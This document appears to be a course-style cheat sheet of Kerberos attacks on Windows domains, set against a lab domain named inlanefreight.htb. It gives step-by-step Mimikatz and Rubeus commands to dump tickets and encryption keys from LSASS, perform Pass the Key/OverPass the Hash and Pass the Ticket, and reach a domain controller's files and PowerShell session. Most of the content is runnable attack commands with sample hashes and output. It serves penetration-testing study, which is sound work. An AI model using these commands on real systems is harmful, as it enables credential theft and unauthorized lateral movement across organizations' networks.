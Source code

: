 # Content 
- [Harvesting Kerberos Tickets from Windows](#harvesting-kerberos-tickets-from-windows)
  - [Mimikatz - Export Tickets](#mimikatz---export-tickets)
  - [Rubeus - Export Tickets](#rubeus---export-tickets)
- [Pass the Key or OverPass the Hash](#pass-the-key-or-overpass-the-hash-get-tgt)
  - [Mimikatz - Extract Kerberos Keys](#mimikatz---extract-kerberos-keys)
  - [Mimikatz - Pass the Key or OverPass the Hash](#mimikatz---pass-the-key-or-overpass-the-hash)
  - [Rubeus - Pass the Key or OverPass the Hash](#rubeus---pass-the-key-or-overpass-the-hash)
- [Pass the Ticket (PtT)](#pass-the-ticket-ptt-get-tgs)
  - [Rubeus - Pass the Ticket](#rubeus---pass-the-ticket)
  - [Mimikatz - Pass the Ticket](#mimikatz---pass-the-ticket)
  - [Mimikatz - PowerShell Remoting with Pass the Ticket](#mimikatz---powershell-remoting-with-pass-the-ticket)
  - [Rubeus - PowerShell Remoting with Pass the Ticket](#rubeus---powershell-remoting-with-pass-the-ticket)

- On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. 
- Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

## Steps 
1) get Kerberos keys
2) use Kerberos keys to get TGT
3) use TGT to get TGS

or 

1) if admin dump TGS from memory 

## Harvesting Kerberos Tickets from Windows
We need a valid Kerberos ticket to perform a Pass the Ticket (PtT). It can be:
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.
- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.



Note: 
1. The tickets that end with $ correspond to the computer account, which needs a ticket to interact with the Active Directory.
2. User tickets have the user's name, followed by an @ that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi` .
3. If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.
4. 
```
At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.
```


### Mimikatz - Export Tickets

```powershell
mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```

### Rubeus - Export Tickets

```powershell
Rubeus.exe dump /nowrap
```


## Pass the Key or OverPass the Hash (Get `TGT`)
- The Pass the Key or OverPass the Hash approach converts a **hash/key** (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.
- To forge our tickets, we need to have the user's hash
- we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys. This module will enumerate all key types present for the Kerberos package.
- once we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.
- Modern Windows domains (functional level 2008 and above) use `AES` encryption by default in normal Kerberos exchanges.
- If we use a `rc4_hmac` (NTLM) hash in a Kerberos exchange instead of an` aes256_cts_hmac_sha1 (or aes128) key`, it may be detected as an "encryption downgrade." 

### Mimikatz - Extract Kerberos Keys

```powershell
mimikatz.exe privilege::debug "sekurlsa::ekeys"
```
after we got the keys we can use Mimikatz or Rubeus to Get the `TGT`

### Mimikatz - Pass the Key or OverPass the Hash 
This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f"
```
### Rubeus - Pass the Key or OverPass the Hash 
Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

```powershell
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

## Pass the Ticket (PtT) (Get `TGS`)
Now that we have some Kerberos tickets `TGT` , we can get some `TGS` and use them to move laterally within an environment.

### Rubeus - Pass the Ticket
```powershell
## import the TGS in the session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
## import a existing TGS file
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

## access another user files
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$


# Pass the Ticket - Base64 Format
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>

## access another user files
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$
```

### Mimikatz - Pass the Ticket
```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

```


### Mimikatz - PowerShell Remoting with Pass the Ticket

```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
```

### Rubeus - PowerShell Remoting with Pass the Ticket

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.

```powershell
 Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
